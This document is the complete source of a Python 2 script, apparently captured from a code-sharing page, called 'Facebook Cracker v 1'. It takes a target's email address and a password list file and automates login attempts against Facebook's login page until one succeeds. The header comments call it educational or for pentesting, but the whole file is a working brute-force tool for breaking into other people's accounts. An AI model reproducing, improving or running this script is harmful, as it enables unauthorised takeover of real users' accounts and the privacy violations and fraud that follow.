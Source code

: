 #!usr/bin/python

#This program is for educational purposes only.
#Don't attack people facebook accounts it's illegal ! 
#If you want to crack into someone's account, you must have the permission of the user. 
#We are not responsible.


import sys
import random
import mechanize
import cookielib


GHT = '''

        +=======================================+
        |..........Facebook Cracker v 1.........|
        +---------------------------------------+
        |#Author: AnakLapangan Attacker         |
        |#Contact: Behind you ^_^               |
        |#Modifed by : khilya140218             |
        |#This tool is made for pentesting.     |
        |#Changing the Description of this tool |
        |Won't made you the coder ^_^ !!!       |
        |#Respect Coderz ^_^                    |
        |#I take no responsibilities for the    |
        |  use of this program !                |
        +=======================================+
        |..........Facebook Cracker v 1.........|
        +---------------------------------------+
'''
print " Facebook Cracker Ready !!"
print "Go To  !!!"


email = str(raw_input("Masukkan alamat email target  : "))
passwordlist = str(raw_input("Masukkan nama file password list : "))

useragents = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]



login = 'https://www.facebook.com/login.php?login_attempt=1'
def attack(password):

  try:
     sys.stdout.write("\r[*] trying %s.. " % password)
     sys.stdout.flush()
     br.addheaders = [('User-agent', random.choice(useragents))]
     site = br.open(login)
     br.select_form(nr=0)

      
     ##Facebook
     br.form['email'] =email
     br.form['pass'] = password
     br.submit()
     log = br.geturl()
     if log != login:
        print "\n\n\n [*] Password found .. !!"
        print "\n [*] Password : %s\n" % (password)
        sys.exit(1)
  except KeyboardInterrupt:
        print "\n[*] Exiting program .. "
        sys.exit(1)

def search():
    global password
    for password in passwords:
        attack(password.replace("\n",""))



def check():

    global br
    global passwords
    try:
       br = mechanize.Browser()
       cj = cookielib.LWPCookieJar()
       br.set_handle_robots(False)
       br.set_handle_equiv(True)
       br.set_handle_referer(True)
       br.set_handle_redirect(True)
       br.set_cookiejar(cj)
       br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
    except KeyboardInterrupt:
       print "\n[*] Exiting program ..\n"
       sys.exit(1)
    try:
       list = open(passwordlist, "r")
       passwords = list.readlines()
       k = 0
       while k < len(passwords):
          passwords[k] = passwords[k].strip()
          k += 1
    except IOError:
        print "\n [*] Error: check your password list path \n"
        sys.exit(1)
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)
    try:
        print GHT
        print " [*] Email to crack : %s" % (email)
        print " [*] Loaded :" , len(passwords), "passwords"
        print " [*] Cracking, please wait ..."
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)
    try:
        search()
        attack(password)
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)

if __name__ == '__main__':
    check()
